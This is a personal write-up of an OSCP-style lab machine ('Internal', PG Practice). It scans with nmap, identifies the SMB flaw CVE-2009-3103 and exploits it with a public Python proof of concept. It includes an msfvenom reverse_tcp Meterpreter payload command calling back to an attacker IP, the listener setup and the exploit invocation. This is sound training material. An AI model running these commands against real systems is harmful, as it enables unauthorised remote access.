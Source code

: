 ```yaml
---
title: Internal
date: 2024-02-15
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Windows
  - Easy
---
```


![info](./info.png)

# Recon
## Nmap
```
nmap -sC -sV 192.168.229.46
```
![nmap](./nmap.png)

There are several ports open on the machine, including http, smb etc.

### HTTP
Going to the url shows a service unavailable
![http-unav](./http-unav.png)

### SMB
Next port to look at would be SMB (139,445)
- lets run the NSE vulnerability enumeration scripts for SMB 
```
nmap --script smb-vuln* -p 139 192.168.229.40
```
![nmap-smb](./nmap-smb.png)

The results show that the machine is vulnerable to CVE-2009-3103.

# Exploitation
Searching for this exploit proof of concept reveals the script [here](https://github.com/kashif-23/modified-public-exploits/blob/main/40820-exploit-cve-2009-3103-python3.py)
- I downloaded the script and tried to see if it would execute, however, I was getting a smb module not found. I fixed that by running the following command for python3
```
pip3 install pysmb
```

Now, the script states to create a msfvenom payload and replace the `shell` variable
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.230 LPORT=443 EXITFUNC=thread -f python
```
![msfvenom-output](./msfvenom-output.png)

The command outputs the result in a `buf` variable
- to automate changing the variable to shell, I copied the results into a file called `shellcode` and ran the following `sed` command
```
sed -i 's/buf/shell/g' shellcode
```
![shellcode](./shellcode.png)

Copy and replace the output into the python script
- before running script, start a meterpreter listener 

```
msfconsole -q
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.45.230
set LPORT 443
run
```

Then run the python script
```
python3 40820-exploit-cve-2009-3103-python3.py 192.168.229.40
```

![meterpreter](./meterpreter.png)

The flag is on the desktop for the administrator user `C:\Users\Administrator\Desktop`.
- use the command `sessions -i 1` then `shell` to get a command shell on the system

# Summary
Reconnaissance:
- Used Nmap to scan the target machine (192.168.229.46), revealing open ports including HTTP and SMB

HTTP Service:
- Attempted to access the HTTP service but found it to be unavailable

SMB Service:
- Focused on the SMB service running on ports 139 and 445
- Ran Nmap NSE vulnerability enumeration scripts for SMB, identifying vulnerability to CVE-2009-3103

Exploitation:
- Found a proof of concept exploit script for CVE-2009-3103
- Installed the required pysmb library for Python3 to resolve the "smb module not found" issue
- Created a msfvenom payload and replaced the shell variable in the exploit script
- Started a Meterpreter listener using msfconsole with appropriate settings
- Executed the modified Python script to exploit the vulnerability and gain access to the target machine

Post-Exploitation:
- Located the flag on the desktop for the Administrator user at C:\Users\Administrator\Desktop

Join me for the next machine soon for more exciting challenges and security insights!

+10 points